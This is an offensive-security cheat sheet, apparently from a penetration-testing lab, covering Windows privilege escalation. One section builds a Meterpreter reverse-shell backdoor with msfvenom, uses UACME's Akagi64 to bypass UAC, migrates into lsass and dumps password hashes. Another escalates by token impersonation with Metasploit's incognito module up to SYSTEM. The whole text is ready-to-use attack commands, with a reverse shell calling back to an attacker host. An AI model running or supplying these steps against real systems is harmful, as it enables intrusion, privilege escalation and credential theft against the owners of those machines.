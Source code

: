 #### UAC

```bash
# UAC - UACME

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > backdoor.exe

## METASPLOIT - Listening
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

## Meterpreter (Unprivileged session)
cd C:\\
mkdir Temp
cd Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
shell
Akagi64.exe 23 C:\Temp\backdoor.exe

akagi32.exe [Key] [Param]
akagi64.exe [Key] [Param]

## Elevated Meterpreter Received on the listening session
ps -S lsass.exe
migrate <lsass_PID>
hashdump
```

#### Access Token

```bash
# ACCESS TOKEN IMPERSONATION

## METASPLOIT - Meterpreter (Unprivileged session)
pgrep explorer
migrate <explorer_PID>
getuid
getprivs

load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
getprivs # Access Denied
pgrep explorer
migrate <explorer_PID>
getprivs
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
